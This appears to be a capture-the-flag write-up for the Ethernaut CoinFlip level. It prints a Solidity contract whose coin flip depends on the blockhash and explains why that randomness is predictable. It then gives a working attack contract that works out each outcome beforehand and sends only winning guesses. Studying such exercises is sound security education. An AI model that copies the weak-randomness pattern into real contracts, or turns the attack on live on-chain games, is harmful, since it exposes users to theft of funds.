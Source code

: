 ```yaml
---
title: Ethernaut 0x3 - Coinflip
date: Wed Aug  4 10:28:04 +08 2021 
categories:
  - "Solidity"
---
```


### Overview

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

`Coinflip.sol`

```solidity
pragma solidity ^0.6.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/cec0800c541c809f883a37f2dfb91ec4c90263c5/contracts/math/SafeMath.sol";

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
```

### Randomness in Solidity

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

### Solution

Head over to [Remix IDE](https://remix.ethereum.org/) and deploy a cloned version of `Coinflip.sol`

The new contract will contain a function which will pre-compute the pseudo randomness of each flips for us. Only the "correct" guesses will be sent to the main contract.

`CoinflipHack.sol`

```solidity
pragma solidity ^0.6.0;

import './Coinflip.sol'

contract CoinflipHack {
    address private instance = 0xC738b5c78719Bbb60C7095acdA04D9C9084316b0;
    CoinFlip public originalContract = CoinFlip(instance);
    
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    function hackFlip(bool _guess) public {
        
        uint256 blockValue = uint256(blockhash(block.number-1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
          originalContract.flip(_guess);
        } else {
          originalContract.flip(!_guess);
        }
    }
}
```


